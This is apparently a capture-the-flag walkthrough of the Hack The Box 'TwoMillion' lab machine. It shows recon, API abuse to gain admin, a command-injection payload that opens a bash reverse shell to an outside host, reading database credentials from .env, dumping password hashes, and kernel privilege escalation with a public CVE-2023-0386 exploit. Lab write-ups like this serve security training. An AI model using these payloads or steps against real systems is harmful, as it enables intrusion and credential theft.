



nmap scan


```bash
nmap -sV -sC -oA nmap/scan 10.10.11.221
```

```
┌──(kali㉿kali)-[~/Documents/HTB/TwoMillion]
└─$ nmap -sV -sC -oA nmap/scan 10.10.11.221
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 14:01 EDT
Nmap scan report for 10.10.11.221
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.97 seconds
```


add http://2million.htb/ to /etc/hosts

It's the classic hack the box website and let's  crack the invite code 


```Javascript
eval(function (p, a, c, k, e, d) {
  e = function (c) {
    return c.toString(36)
  };
  if (!''.replace(/^/, String)) {
    while (c--) {
      d[c.toString(a)] = k[c] || c.toString(a)
    }
    k = [
      function (e) {
        return d[e]
      }
    ];
    e = function () {
      return '\\w+'
    };
    c = 1
  };
  while (c--) {
    if (k[c]) {
      p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])
    }
  }
  return p
}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}', 24, 24, 'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, {
}))

```

we used chat gpt to make it readable

```Javascript
function verifyInviteCode(code) {
  var formData = {
    code: code
  };
  
  $.ajax({
    type: "POST",
    url: "/api/v1/invite/verify",
    dataType: "json",
    data: formData,
    success: function(response) {
      console.log(response);
    },
    error: function(error) {
      console.log(error);
    }
  });
}

function makeInviteCode() {
  $.ajax({
    type: "POST",
    url: "/api/v1/invite/generate",
    success: function(response) {
      console.log(response);
    },
    error: function(error) {
      console.log(error);
    }
  });
}
```

Get a valid code

```bash
┌──(kali㉿kali)-[~/Documents/HTB/TwoMillion]
└─$ curl -X POST "http://2million.htb/api/v1/invite/generate"
{"0":200,"success":1,"data":{"code":"T1lHVUstRDUwWUEtVTUzSUktUkFYWlQ=","format":"encoded"}}                                                                                                                                                             
┌──(kali㉿kali)-[~/Documents/HTB/TwoMillion]
└─$ echo "T1lHVUstRDUwWUEtVTUzSUktUkFYWlQ=" | base64 --decode
OYGUK-D50YA-U53II-RAXZT       
```

After looking around the website we can all the api endpoints
using 

```bash
http://2million.htb/api/v1
```

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```


After playing around with the endpoint. The below endpoint can change a normal use to the admin user

```
/api/v1/admin/settings/update
```

```Request
Content-Type: application/json

{
"email":"me@aj.cool",
"is_admin":1
}
```




```text
/api/v1/admin/vpn/generate
```

is vulnerable to command injection

```json
{"username":"john ;ls;"}
```




Get revshell

```json
{"username":"john ;bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1';"}
```

```text
┌──(kali㉿kali)-[~/Documents/HTB/TwoMillion]
└─$ nc -nvlp 1337                          
listening on [any] 1337 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.221] 57734
bash: cannot set terminal process group (1158): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ 
```

change the shell to /bin/bash

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


```text
www-data@2million:~/html$ ls -la
ls -la
total 56
drwxr-xr-x 10 root root 4096 Jul 14 19:10 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jul 14 19:10 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$ 
```


Connect to the database

```text
www-data@2million:~/html$ mysql -u admin -p
mysql -u admin -p
Enter password: SuperDuperPass123

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 130
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| htb_prod           |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> 

```

We found the user details

```text
MariaDB [htb_prod]> select * from users;
select * from users;
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| id | username     | email                      | password                                                     | is_admin |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| 11 | TRX          | trx@hackthebox.eu          | $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq |        1 |
| 12 | TheCyberGeek | thecybergeek@hackthebox.eu | $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK |        1 |
| 13 | john         | jgabylin@karunya.edu.in    | $2y$10$tfqBJkqWxGDU/NFOjuU2J.Y2vcmb7zI7pTpwOuQcIeqyYp8eAr7vu |        1 |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
3 rows in set (0.000 sec)
```


Admin has reused the db password

```
admin - SuperDuperPass123
```

Priv Escalation 

```
find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys
```

```text
admin@2million:/var/mail$ find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
/home/admin
/home/admin/.gnupg
/home/admin/.gnupg/pubring.kbx
/home/admin/.gnupg/trustdb.gpg
/home/admin/.gnupg/private-keys-v1.d
/home/admin/.cache
/home/admin/.cache/motd.legal-displayed
/home/admin/snap
/home/admin/snap/lxd
/home/admin/snap/lxd/current
/home/admin/snap/lxd/24322
/home/admin/snap/lxd/common
/home/admin/snap/lxd/common/config
/home/admin/snap/lxd/common/config/config.yml
/home/admin/.ssh
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
/tmp/tmux-1000
/dev/pts/1
```

There is a `/var/mail/admin` for the admin

```text
admin@2million:~$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

CVE-2023-0386

https://github.com/xkaneiki/CVE-2023-0386

```bash
git clone https://github.com/xkaneiki/CVE-2023-0386
```

move the file to the server

```
make all
```

Open Two Shells

```
./fuse ./ovlcap/lower ./gc
```

```
./exp
```


We got the shell


